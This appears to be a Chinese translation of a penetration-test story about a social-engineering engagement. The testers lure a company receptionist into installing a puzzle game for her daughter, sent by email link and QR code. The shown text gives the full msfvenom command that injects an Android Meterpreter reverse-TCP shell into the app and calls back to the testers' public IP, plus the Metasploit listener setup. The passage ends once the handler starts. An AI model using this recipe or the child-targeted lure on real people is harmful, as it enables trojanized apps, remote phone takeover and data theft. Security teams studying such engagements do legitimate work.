 这就是我们常说的K.I.S.S策略（Keep It Simple Stupid）

下面的故事如与真实事件或真实人物有任何相似之处，纯属巧合。

<br>

**背景**

“超级公司”聘请了我们的渗透测试工程师对其员工进行社会工程学评估，测试的范围是找到所有能窃取机密资料的方法，从而利用员工

在内部见面会期间，我们要求访问访客WiFi。访客WiFi受到专属保护，因此需要登录，凭证有效期仅为一天。

一旦连接上了WiFi，我们就开始从iPhone手机用Fing进行了一次快速扫描：结果我们发现了几台Android设备——这显然是超过了公司访客的人数。我们认为甚至公司职员也使用访客WiFi。也许可以节省他们宝贵的数据计划。事实上，给我们登录凭证的接待员在我们询问如何访问网络时，正在聊WhatsApp。

场景：桌子上有两部电话，整洁的桌面，一家三口的照片。

在短暂的闲聊之后，我了解到了她女儿四岁了，非常活跃，但是只要有装了游戏的智能手机就能平静下来。啊，现在的孩子们啊…

<br>

**攻击描述**

社会工程学是从一次小型钓鱼活动开始的，虽然惨遭失败。我们随后发现公司职员在我们攻击之前，都受到过相关训练，对附件、下载等行为都有很强的警惕性，我们的开端并不好。

于是我们决定把精力集中在接待员身上，我们的目的是让她为孩子下载Android应用，有什么对孩子来说比拼图更有意思呢，哈 我们喜欢拼图啊。

[![](./img/85960/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t019666c0865239b49d.png)

找到接待员的email个人地址非常容易，我们准备了一封电子邮件，里面有一个链接定位到下载页面。我们还在邮件里加了一个二维码，只要像拍照一样扫一下就能安装了。

[![](./img/85960/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t011d5dbaf73362ec1e.png)

很可爱对吧！我们的目标很容易就会装上恶意安卓应用，这个应用程序确实是一个拼图游戏，只是里面藏了一个Meterpreter的shell

<br>

**瞄准智能手机**

创建一款恶意安卓应用非常简单，我们下载了一个普通应用，然后使用msfvenom来注入了payload，也就是meterpreter shell

```
msfvenom -x puzzle.apk -p android/meterpreter/reverse_tcp LHOST=&lt;OUR_PUBLIC_IP&gt; LPORT=443 -o /var/www/html/puzzle.apk
```

使用443端口进行监听的原因是，443和80端口都通常是被防火墙许可的标准端口

我们相信这款app能够引起接待员足够的兴趣，并忽略掉安装过程中的警告

在我们的主机上，也开启了一个监听程序：



```
msf&gt;use exploit/multi/handler
msf exploit(handler) &gt; set payload android/meterpreter/reverse_tcp
payload =&gt; android/meterpreter/reverse_tcp
msf exploit(handler) &gt; set lhost &lt;OUR_PUBLIC_IP&gt;
lhost =&gt; &lt;OUR_PUBLIC_IP&gt;
msf exploit(handler) &gt; set lport 443
lport =&gt; 443
msf exploit(handler) &gt; exploit -j -z
[*] Started reverse TCP handler on &lt;OUR_PUBLIC_IP&gt;:443
```
